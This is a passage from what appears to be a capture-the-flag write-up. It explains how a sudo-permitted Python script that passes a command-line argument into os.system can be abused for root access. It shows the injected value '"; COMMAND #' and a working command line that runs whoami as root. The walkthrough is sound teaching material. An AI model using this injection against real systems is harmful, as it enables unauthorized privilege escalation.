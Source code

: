 ```python
    print("Done!")

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("--row", help="Row to query")
    args = parser.parse_args()

    query_db(args.row)
```

Seems innocuous enough; it takes in the `--row` argument and queries it in the SQL database.

There is, however, an `os.system` call which we can perhaps exploit. However, `query_db.py` is owned by `jared`, and we already have access to this account. What we really want is access to `root`.

Using `sudo -l`, we can find out what we can run as root.

```text
sudo -l
Matching Defaults entries for jared on c3419090a912:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jared may run the following commands on c3419090a912:
    (ALL) NOPASSWD: /home/jared/query_db.py
```

That's it! We can run `query_db.py` as root. This means that we should find a way to exploit it to run our own commands.

As mentioned before, we can exploit these lines:

```py
    sql = f".open /home/jared/chinook.db\nSELECT {row} FROM employees;"
    os.system(f'echo "{sql}" | /usr/bin/sqlite3')
```

We can inject `"; COMMAND #` to run `COMMAND` as root.

This results in the final `os.system` call effectively being something like this:

```py
    os.system(f'echo ".open /home/jared/chinook.db\nSELECT"; COMMAND #" FROM employees;" | /usr/bin/sqlite3')
```

What this ends up doing is:

1. Echoing `".open /home/jared/chinook.db\nSELECT"`;
2. Executing `COMMAND` (the rest of the SQL query, after the `#`, is commented out);
3. Piping the results into `/usr/bin/sqlite3`.

However, injecting something doesn't give us any useful output. To see the output of `COMMAND`, we have to redirect the errors to standard output by adding `2>&1`.

Now, we can run things as `root`:

```sh
sudo /home/jared/query_db.py --row='"; whoami #' 2>&1 
.open /home/jared/chinook.db
SELECT 
root
Done!
```

